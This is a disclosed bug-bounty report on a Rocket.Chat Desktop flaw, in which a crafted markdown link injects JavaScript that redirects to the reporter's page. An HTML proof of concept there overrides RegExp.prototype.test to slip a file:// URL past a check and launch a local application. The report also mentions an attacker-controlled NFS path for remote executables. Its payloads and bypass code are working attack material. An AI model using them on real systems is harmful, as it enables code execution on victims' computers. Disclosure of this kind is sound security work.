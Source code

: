 # Remote Code Execution in Rocket.Chat Desktop

## Report Details
- **Report ID**: 276031
- **URL**: https://hackerone.com/reports/276031
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-10-10T06:22:44.191Z
- **Disclosed**: 2018-09-18T22:00:43.878Z

## Reporter
- **Username**: mattaustin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Summary:** The Markdown parser can be tricked into allowing arbitrary Javascript leading to "remote code execution". 

**Description:** 
By combining the "link" and inline code block we can trick the parser into breaking out of the current HTML attribute. 

This allows us to control other attributes of the tag and trigger javascript events. 
```
[ hax ](http://hax//onmouseover=location='https://maustin.net/hax/rocket/hack.html';"`hax`zzz)
```
becomes 
```html
<a href="&lt;a href=" http:="" hax="" onmouseover="location='https://maustin.net/hax/rocket/hack.html';&quot;&quot;" target="_blank" rel="noopener noreferrer">
```

This is a simple redirect to: https://maustin.net/hax/rocket/hack.html

From this point the goal is to get the application to call shell.openExternal(href); with a URL we control. Thats because: 
>      "open 'file://localhost/Volumes/Macintosh HD/foo.txt'" opens the document
     in the default application for its type (as determined by LaunchSer-
     vices).

Note:  For this demo I point to file:///Applications/Calculator.app however if you point to a public NFS or SMB server on windows this executable can be controlled by the attacker. (example at: file:///net/192.241.239.91/var/nfs/general/hack2.app)

In https://github.com/RocketChat/Rocket.Chat.Electron/blob/master/src/public/preload.js#L45 all links are hooked and some patter matching is used to check before firing them off to shell.openExternal(href); 

Normally preload javascript is an "isolated scope" in this case however the code is directly attached to the user controlled DOM as the "window.onload" handler. This means we can overload some global objects and methods including the RegExp.prototype.test method. Now we can bypass the file:\\/\\/ check send our application path to openExternal.

```html
<!DOCTYPE html>
<html>
    <head>
      <script>
        RegExp.prototype.test = new Proxy(RegExp.prototype.test, {
          apply: function(target, thisArg, argumentsList) {
            console.log(thisArg.source);
          console.log(argumentsList[0]);
          if((thisArg.source == '^file:\\/\\/.+') && (argumentsList[0] === 'file:///Applications/Calculator.app')){
            return false;
          }
          return Reflect.apply(target, thisArg, argumentsList)
          }
        });
        setTimeout(()=>{
            a = document.createElement("A")
            a.href="file:///Applications/Calculator.app"
            document.body.appendChild(a)
            a.click()
        }, 3000);
      </script>
    </head>
    <body>
     <h1>3...2...1...🚀</h1>
    </body>
</html>
```

## Releases Affected:

  * >= 2.9.0

## Steps To Reproduce (from initial installation to vulnerability):

  1. Create a new channel to test in. 
  1. Send the following snippet of markdown: 
```
[ hax ](http://hax//onmouseover=location='https://maustin.net/hax/rocket/hack.html';"`hax`zzz)
```
  1. Move your mouse over the link you just send and 

## Supporting Material/References:

  * https://youtu.be/HPlwlc2J-LQ

## Suggested mitigation

  * The markdown parser needs a little love to prevent the initial xss. 
  * I believe you should be able to use something like  `window.addEventListener("load",` .. to execute the checks in the proper scope. 


## Attachments
No attachments
